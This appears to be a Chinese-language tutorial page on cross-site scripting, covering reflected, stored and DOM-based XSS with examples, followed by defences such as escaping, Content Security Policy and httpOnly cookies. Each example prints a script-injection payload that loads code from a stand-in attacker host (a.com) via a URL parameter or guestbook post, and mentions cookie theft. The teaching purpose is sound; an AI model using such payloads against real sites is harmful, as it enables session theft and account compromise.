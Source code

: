 ```yaml
---
sidebar:
group:
title: xss攻击
isTimeLine: true
date: 11-10-2023
tags:
categories:
sticky: 1
---
```

# xss攻击

## XSS 跨站脚本攻击

指攻击者在网页中注入恶意代码，在用户浏览网页的时候进行攻击。

类型：

反射型（非持久性）

原理：将攻击代码放在 url 地址的请求参数中，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

要点：

通过 URL 插入恶意代码。
有服务端参与。
需要用户访问特定链接。
例子：

攻击者诱导被害者打开链接 hzfe.org?name=<script src="http://a.com/attack.js"/>。

被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。

被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的 Cookie 等）。

存储型（持久性）

原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

要点：

恶意代码存储在目标网站服务器上。
有服务端参与。
只要用户访问被注入恶意脚本的页面时，就会被攻击。
例子：

攻击者在目标网站留言板中提交了 <script src="http://a.com/attack.js"/>。

目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中。

其他用户在访问该留言板时，会自动执行攻击者注入脚本。

DOM 型

原理：攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。

要点：在客户端发生。

例子：

攻击者诱导被害者打开链接 hzfe.org?name=<script src="http://a.com/attack.js"/>。

被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。

被害者在不知情的情况下，执行了攻击者注入的脚本。

防范 XSS：

对于外部传入的内容进行充分转义。
开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
设置 Cookie httpOnly 属性，禁止 JS 读取 Cookie 防止被窃取。
#



















